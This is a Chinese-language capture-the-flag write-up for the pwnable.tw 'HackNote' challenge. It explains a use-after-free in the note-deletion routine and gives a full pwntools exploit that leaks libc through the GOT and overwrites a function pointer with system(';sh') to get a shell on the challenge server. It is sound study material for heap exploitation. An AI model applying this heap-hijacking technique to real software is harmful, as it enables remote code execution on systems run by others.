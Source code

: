 # [Pwnable.tw] HackNote 

## 程序逻辑

* add(content)

  在note中添加一个项，note的结构如下：

  ```
  | note[0] | note[1] | note[2] | ... | note[4] |
  	|
  	--> | hook_function ptr | content ptr | 
  								|
  								--> | content block |
  ```

* print_note(idx)

  指定一个项进行打印，打印会调用 *hook_function( note[idx] )

* delete(idx)

  删除一个项，即：

  ```c
  free(content_ptr);
  free(note[idx]);
  ```

  此处free后没有将指针置零，存在Use After Free

## 漏洞 & simple demostration

delete中free后没有将指针置零，free后的堆块若被其它note项申请，其它note项便可以控制已free的项的内容。

一个motivation example如下，申请一个note，设置content为`aaa`，随后delete；申请一个note，设置content为`bbb`；选择print第0个note，输出内容为`bbb`。此处，note[1]的ptr chunk为note[0]的ptr chunk，content chunk同样也是note[0]的content chunk。由于note[1]->content = bbbb，在选择print note[0]时，打印出的内容由aaaa变为bbbb。

```sh
➜  hacknote ./hacknote
----------------------
       HackNote
----------------------
 1. Add note
 2. Delete note
 3. Print note
 4. Exit
----------------------
Your choice :1
Note size :4
Content :aaaa
Success !
----------------------
       HackNote
----------------------
 1. Add note
 2. Delete note
 3. Print note
 4. Exit
----------------------
Your choice :2
Index :0
Success
----------------------
       HackNote
----------------------
 1. Add note
 2. Delete note
 3. Print note
 4. Exit
----------------------
Your choice :1
Note size :4
Content :bbbb
Success !
----------------------
       HackNote
----------------------
 1. Add note
 2. Delete note
 3. Print note
 4. Exit
----------------------
Your choice :3
Index :0
bbbb
```



## exploitation

### 攻击方式

example中控制的是`note[0]->content_chunk`，是否可以控制`note[0]->ptr_chunk`？或者说，是否可以使得`note[i]->content_ptr == note[0]->ptr_chunk `？

在example中，能够使得`note[1]->ptr_chunk == note[0]->ptr_chunk`，是因为free后的chunk位于fastbin[0]上，再申请时会从fastbin[0]中重新取出该chunk。如果我们设置`note[1]->content_size = 8`，我们是否能获得`note[0]->ptr_chunk` ？由于example中fastbin[0]上只有一个chunk，并且申请`note[1]->content`的顺序晚于`note[1]->ptr_chunk`，因此在上面的example中这是不可行的。

但是进一步地，如果我们能够使得fastbin[0]上有两个ptr_chunk呢？即做到`fastbin[0] ---> note[0]->ptr_chunk ---> note[1]->ptr_chunk`，这是容易的，只需要`add(size=0x10)`两次，再`delete(idx=0,idx=1)`即可。接下来再`add(size=8)`，就能够使得`note[2]->content == note[0]->ptr_chunk`。

控制了ptr_chunk之后，第一个想法是通过更改`note[0]->ptr_chunk->hook_func`来劫持控制流，从程序逻辑中我们知道，`print_note(idx=0)`实际上会调用`*(note[0]->ptr_chunk->hook_funk)(note[0])`，如果`*note[0] == "/bin/sh"`，并且`ptr_chunk == system`，那么我们就可以调用`system("/bin/sh")`。这个想法是行不通的，因为`*note[0] == |hook_func|content_ptr|`，如果我们希望`hook_func == system`，就不可能有`*note[0]=="/bin/sh"`。然而这个想法的方向是正确的，因为`system("xxx;sh")`也能够调用shell，因此我们只要修改`content_ptr = ";sh\x00"`，即可通过system调用sh。

在写入system之前，我们还需要获得libc加载的基地址。再回过头看`*hook_ptr(note[0])`，如果我们不变动`hook_ptr`，但是令`content_ptr = GOT["puts"]`，就可以通过print_note打印出puts的地址，从而达到泄露libc基地址的目的。

因此整个攻击流程已经明确了：

- 控制`note[0]->ptr_chunk`
  - `add(size=0x10) X 2` 
  - `delete(idx=0,idx=1)`
- 泄露libc基地址
  - `add(size=8，content=|print_note_func|GOT["puts"]| )`
  - `print_note(idx=0)`
- 更改hook_funk为system，content_ptr为`";sh\x00"`
  - `delete(idx=2)`
  - `add(size=8. content= |system_address|;sh\x00| )`
- getshell
  - print_note(idx=0)

脚本如下：

```python
# !/bin/python3
from pwn import *

context.arch = 'i386'
context.terminal = ['tmux','splitw','-h']

def choice(io, choi):
    io.recvuntil(b"Your choice :")
    io.sendline(f"{choi}".encode())

def add(io,size,content):
    choice(io,1)
    io.recvuntil(b"Note size :")
    io.sendline(f"{size}".encode())
    io.recvuntil(b"Content :")
    io.send(content)
    io.recvuntil(b"Success !")

def delete(io,idx):
    choice(io,2)
    io.recvuntil(b"Index :")
    io.sendline(f"{idx}".encode())
    # io.recvuntil(b"Success !")

def print_note(io,idx):
    choice(io,3)
    io.recvuntil(b"Index :")
    io.sendline(f"{idx}".encode())
    content = io.recvuntil(b"----------------------").strip(b"----------------------")
    return content

def leak_libc(io):
    choice()

def gdb_scripts(system_addr):
    scripts = f"set $system={system_addr}\n"
    scripts+= f"b *$system\n"
    scripts+= f"c"
    return scripts

DEBUG = False   

if __name__ == "__main__":
    if DEBUG:
        io = process("./hacknote")
    else:
        io = remote("chall.pwnable.tw",10102)
    _bin = ELF("./hacknote")
    libc = ELF("./libc_32.so.6")

    print_note_hook = 0x804862b
    puts_got = _bin.got['puts']

    # add 2 notes with size=0x10, idx=0,1, content: "/bin/sh\x00"
    # delete idx=0,idx=1
    # add 1 note with size = 0x8, idx=2, this note control the print_note_hook and content_ptr of note(idx=0) 
    # modified note(idx=2) content to | print_note_hook | GOT['puts'] |
    # print_note(idx=0), then the address of puts will leak, as well as libc
    # delete(idx=2), then bin->meta_chunk->content_chunk
    # add 1 note with size = 0x8, idx=3, this note control the print_note_hook and content_ptr of note(idx=3)
    # set idx=3' content to | system | ";sh\x00" |

    add(io,0x10,b"/bin/sh\x00")
    add(io,0x10,b"/bin/sh\x00")
    delete(io,0)
    delete(io,1)
    add(io,0x8,p32(print_note_hook) + p32(puts_got))
    # leak libc
    puts_addr = print_note(io,0)[:4]
    puts_addr = u32(puts_addr.ljust(4,b'\x00'))
    print("puts_addr: ", hex(puts_addr))
    libc.address = puts_addr - libc.symbols["puts"]
    print("leaked libc:",hex(libc.address))
    # hack
    delete(io,2)
    system_addr = libc.symbols["system"]
    gets_addr = libc.symbols["gets"]
    binsh = next(libc.search(b"/bin/sh\x00"))
    print("system at:",hex(system_addr))
    print("binsh at:",hex(binsh))

    #gdb.attach(pidof(io)[0],gdbscript=gdb_scripts(system_addr))
    #sleep(1)
    add(io,0x8,p32(system_addr)+b";sh\x00")
    #gdb.attach(pidof(io)[0],gdbscript=gdb_scripts(system_addr))
    # print(print_note(io,0))
    io.interactive()
```

